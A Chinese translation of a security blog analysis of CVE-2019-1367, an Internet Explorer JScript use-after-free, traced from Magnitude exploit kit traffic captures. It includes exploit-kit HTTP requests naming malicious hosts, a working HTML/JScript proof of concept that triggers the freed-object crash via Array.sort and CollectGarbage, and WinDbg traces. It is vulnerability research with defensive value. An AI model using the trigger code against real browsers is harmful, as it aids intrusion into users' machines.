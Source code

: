 > 原文链接: https://www.anquanke.com//post/id/210769 


# CVE-2019–1367：IE 漏洞分析 Part1


                                阅读量   
                                **139040**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Taha Karim，文章来源：blog.confiant.com
                                <br>原文地址：[https://blog.confiant.com/internet-explorer-cve-2019-1367-exploitation-part-1-7ff08b7dcc8b](https://blog.confiant.com/internet-explorer-cve-2019-1367-exploitation-part-1-7ff08b7dcc8b)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t01392bafd42dd5920c.jpg)](https://p0.ssl.qhimg.com/t01392bafd42dd5920c.jpg)



## 从PCAP中提取Exploit

在这一节中，我们将通过分析恶意软件流量从pcaps中提取exploit。幸运的是，pcaps包含了成功利用目标后的流量!这将有助于我们得到成功利用漏洞并执行shellcode后发出的网络请求，最终获得丢失的payload（也就是在pcap中！）

查看第一个HTTP请求，我们可以看到Accept-Language：ko-KR，这表明它是针对韩国用户的。这与Magnitude Exploit Kit的定位一致：

```
GET / HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Accept-Language: ko-KR
User-Agent: Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
DNT: 1
Connection: Keep-Alive
Host: 36b2r105aw.girlbad.fun
```

仅返回base64数据，通常用于Magnitude Exploit KIT登陆页面：

[![](https://p0.ssl.qhimg.com/t01253f1f628b0fcb85.png)](https://p0.ssl.qhimg.com/t01253f1f628b0fcb85.png)

对其进行解码将使我们进入第2阶段 – 混淆：

[![](https://p4.ssl.qhimg.com/t012a6d3ba876bd705c.png)](https://p4.ssl.qhimg.com/t012a6d3ba876bd705c.png)

第2阶段使用一些简单的去混淆步骤来查看对 `b6883l0bak[.]pophot.website` 最终的请求。返回Jscript编码数据，设置IE8兼容模式:

[![](https://p1.ssl.qhimg.com/t011007bab26120cfd9.png)](https://p1.ssl.qhimg.com/t011007bab26120cfd9.png)

> 注意：默认情况下，IE11，IE10和IE9使用Jscript9.dll，该脚本不受 CVE-2019-1367 漏洞的影响。设置IE8兼容模式，将强制IE浏览器使用旧版jscript.dll,并触发CVE-2019-1367漏洞。

我们使用Windows Script Decoder 1.8工具对这个Jscript.Encoded编码的数据进行了解码，该工具可以在这里找到：https : //gist.github.com/bcse/1834878

解码后，我们收到了完整的CVE-2019–1367 exploit，但是混淆了：

[![](https://p5.ssl.qhimg.com/t01a3104605c8247536.png)](https://p5.ssl.qhimg.com/t01a3104605c8247536.png)

这个exploit会对一些native javascript函数进行编码，从而混淆了脚本。但是我们仍然可以发现有漏洞的 Array.Sort（）函数，以及Enumerator对象的使用，以及随后调用CollectGarbage()来进行一些堆风水!



## Fenix漏洞

当处理未知的漏洞时，使用补丁对比或调试跟踪来检测具体原因，这通常是用来定位漏洞的方法，F-secure使用[differential debugging](https://labs.f-secure.com/blog/internet-exploiter-understanding-vulnerabilities-in-internet-explorer/)对CVE-2020–9674进行了详细分析。

简单地说，CVE-2019–1367是由Jscript的垃圾回收机制（GC）造成的，它没有正确地处理 Array.sort() 回调函数。没有正确地更新当前正在使用的对象的引用计数。这会导致当前正在使用的对象被过早释放。

换句话说，在调用Garbage集合之后，Array.sort（）回调函数的参数将指向过早释放的内存分配，这也称为悬空指针（dangling pointer）。

为什么这很重要?如果我们能用一个我们控制的对象来替换这个悬空指针所指向的内存，我们就可以开始执行我们自己的代码：它通常是一个shellcode,可以执行一些任务，比如：弹出一个计算器，或者下载勒索软件，我们将在第3部分内容看到。

我们可以编写一个简单的POC，来演示这个漏洞，我们将创建一个空数组，以便能够调用array .sort()函数，保存对参数的引用，强制垃圾回收，然后再次尝试访问保存的引用，然后查看发生了什么。



## POC

以下是我们针对CVE-2019–1367的Poc,我们分配了足够的对象来分配50多个GC块。为什么是50？如果我们看一下Jscript.dll中的GcBlockFactory::freeBlk方法，我们可以看到GC维护着一个包含50个空闲GC块的列表。当调用垃圾回收机制时，标记为free的GC块将添加到这个列表中，如果空闲块的计数器≥50，那么下一个空闲块将不添加到块列表中，而是直接被释放:

[![](https://p3.ssl.qhimg.com/t0154cfba469d0893f1.png)](https://p3.ssl.qhimg.com/t0154cfba469d0893f1.png)

dll中的垃圾回收过程是基于mark-sweep（标记-扫描）算法的:

[![](https://p4.ssl.qhimg.com/t0155cab6880c2020a2.gif)](https://p4.ssl.qhimg.com/t0155cab6880c2020a2.gif)

在IE Jscript引擎中，这可以转换为3个不同的步骤：
- 步骤1：标记所有的变量。标记是通过`| 0x881`完成的。
- 步骤2：为每个变量对象调用清除函数(每个对象都实现了自己的清除函数)，包括检查是否存在对这些标记对象的引用，如果是这种情况，则对象未标记。
- 步骤3：调用回收垃圾机制释放所有标记的变量。注意：如果GC块的所有变量都被标记并因此被释放，则整个GC块将被释放。
我们可以编写一个Poc,在其中分配50多个gc block，并在参数中保留其中一个对象的引用，触发垃圾回收机制并通过Alert()再次访问该引用来触发bug。

我们使用以下代码对IE8和IE11进行了测试：

```
&lt;meta http-equiv="X-UA-Compatible" content="IE=8"&gt;&lt;/meta&gt;
&lt;html&gt;
&lt;script language="Jscript.Encode"&gt;

var size = 20000;
var test = new Array();

function hack () 
`{`
  alert("calling hack()");

  // fill the testing array with objects
  for(var i = 0; i &lt; size; i++) test[i] = new Object(); 

  arguments[0] = test[5000];

  // mark these object as null, to force garbage collection
  for(var i = 0; i &lt; size; i++) test[i] = 0;

  // call garbage collector
  alert("calling CollectGarbage()");

  CollectGarbage(); 

  alert("calling Alert()");

  alert(arguments[0]);

  return 0;
`}`

alert("calling sort()");

[0,0].sort(hack);

&lt;/script&gt;
&lt;/html&gt;
```

在IE8中，我们崩溃了（在Windows 7 SP1 32位上测试）

[![](https://p3.ssl.qhimg.com/t01498fbd92257e7717.png)](https://p3.ssl.qhimg.com/t01498fbd92257e7717.png)

IE11当前标签崩溃，然后重新加载(在Windows 10 x64上测试)<br>[![](https://p0.ssl.qhimg.com/t014cf4b4c5bee3aa9c.png)](https://p0.ssl.qhimg.com/t014cf4b4c5bee3aa9c.png)

在启用page heap的情况下将WinDBG附加到IE11，我们这次可以捕获异常，正如我们在下面的跟踪中看到的，EDI指向一个未指定的内存地址0x23d28a30:

```
(18dc.19d4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000080 ebx=0c44c4c4 ecx=00000080 edx=00000001 esi=1c81ff00 edi=23d28a30
eip=68ccc063 esp=0c44c440 ebp=0c44c474 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
jscript!PrepareInvoke+0x143:
68ccc063 0fb707          movzx   eax,word ptr [edi]       ds:002b:23d28a30=????
0:007&gt; k
 # ChildEBP RetAddr  
00 0c44c474 68ceda5a jscript!PrepareInvoke+0x143
01 0c44c540 68cccc1c jscript!InvokeDispatchEx+0x75
02 0c44c570 68cd05e3 jscript!VAR::InvokeByDispID+0xbd
03 0c44c8e8 68cd2f52 jscript!CScriptRuntime::Run+0xf33
04 0c44c9dc 68cd305b jscript!ScrFncObj::CallWithFrameOnStack+0xa2
05 0c44ca34 68ceb677 jscript!ScrFncObj::Call+0x7b
06 0c44ca98 68ceb4d7 jscript!CallComp+0x55
07 0c44cb84 68ce92f4 jscript!JsArrayFunctionHeapSort+0x290
08 0c44cbfc 68cc9428 jscript!JsArraySort+0x1e4
```

分析 `0x23d28a30` 的内存地址，我们可以看到它指向的内存地址属于已释放的内存块。在堆栈跟踪中，我们可以注意到对`GcAlloc::ReclaimGarbage`的调用，尤其是负责释放块的`GcBlockFactory::FreeBlk`：

```
0:007&gt; !heap -p -a edi
    address 23d28a30 found in
    _DPH_HEAP_ROOT @ 9e11000
    in free-ed allocation (  DPH_HEAP_BLOCK:         VirtAddr         VirtSize)
                                   23c62d68:         23d28000             2000
    6bc9ae02 verifier!AVrfDebugPageHeapFree+0x000000c2
    772f35f1 ntdll!RtlDebugFreeHeap+0x0000003e
    7729fd81 ntdll!RtlpFreeHeap+0x00048011
    77257a12 ntdll!RtlFreeHeap+0x00000222
    757a70b5 msvcrt!free+0x00000065
    68cc9748 jscript!GcBlockFactory::FreeBlk+0x00000023
    68ccbc62 jscript!GcAlloc::ReclaimGarbage+0x00000232
    68ccade8 jscript!GcContext::Reclaim+0x00000089
    68ccb0e1 jscript!GcContext::CollectCore+0x00000201
    68ccabcb jscript!GcContext::Collect+0x0000001f
    68cce892 jscript!NameTbl::InvokeInternal+0x00000152
    68cccbc8 jscript!VAR::InvokeByDispID+0x00000069
    68cd05e3 jscript!CScriptRuntime::Run+0x00000f33
    68cd2f52 jscript!ScrFncObj::CallWithFrameOnStack+0x000000a2
    68cd305b jscript!ScrFncObj::Call+0x0000007b
    68ceb677 jscript!CallComp+0x00000055
    68ceb4d7 jscript!JsArrayFunctionHeapSort+0x00000290
    68ce92f4 jscript!JsArraySort+0x000001e4
```

通过这个Poc，我们确认了CVE-2019-1367使用UAF漏洞，这个UAF漏洞的利用，将在第2部分中介绍。
